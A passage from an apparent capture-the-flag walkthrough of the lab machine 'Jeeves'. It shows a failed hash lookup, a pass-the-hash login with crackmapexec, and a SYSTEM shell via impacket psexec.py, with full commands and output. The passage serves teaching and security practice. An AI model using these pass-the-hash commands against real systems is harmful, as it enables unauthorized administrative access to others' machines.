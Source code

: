 #### Crack Failures

Because there’s no salting in NT hashes, I can submit them to [CrackStation](https://crackstation.net/), where they store *tons* of hashes for known passwords. It finds the empty LM hash, but doesn’t have anything for the NT hash:

![image-20220413072456310](https://0xdfimages.gitlab.io/img/image-20220413072456310.png)

#### Pass The Hash

Because of how Windows handles authentication, when you enter your password, it’s actually the hash of the password that the client sends to Windows. That means with the right client, you can just pass that hash directly. `crackmapexec` is one of those clients that can take a hash and try to auth with it, and it works:

```

oxdf@hacky$ crackmapexec smb 10.10.10.63 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00                                                    
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)

```

Now only is it successful, but it shows `(Pwn3d!)`, which means this account has admin access.

### Shell

With valid admin creds, I’ll use `psexec.py` to get a shell:

```

oxdf@hacky$ psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63 cmd.exe
Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file KLAXsITe.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service xUyL on 10.10.10.63.....
[*] Starting service xUyL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

```

### root.txt
